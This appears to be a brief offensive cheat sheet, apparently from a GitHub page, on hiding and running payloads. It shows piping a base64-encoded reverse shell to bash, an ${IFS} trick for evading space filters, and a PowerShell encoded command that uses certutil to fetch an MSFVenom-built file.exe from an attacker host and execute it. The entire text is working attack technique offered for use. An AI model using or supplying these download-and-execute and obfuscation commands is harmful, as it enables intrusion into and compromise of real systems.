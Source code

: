 ### Command

#### 1) 

    echo 'REVERSE_SHELL_PAYLOAD' | base64

#### 2) 

    echo 'BASE64_REVSHELL'|base64 -d|bash

Space delimiter

    echo${IFS}BASE64_SHELL|base64${IFS}-d|bash

#### 3) Powershell Encoded:

### Payload to be encoded:

    certutil.exe -f -urlcache http://kali/file.exe file.exe; .\file.exe

### Encoding :

    [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('certutil.exe -f -urlcache http://kali/file.exe file.exe; .\file.exe'))

### Executing :

    powershell.exe -nop -e [above encoded code]

### File.exe has been generated using MSFVenom
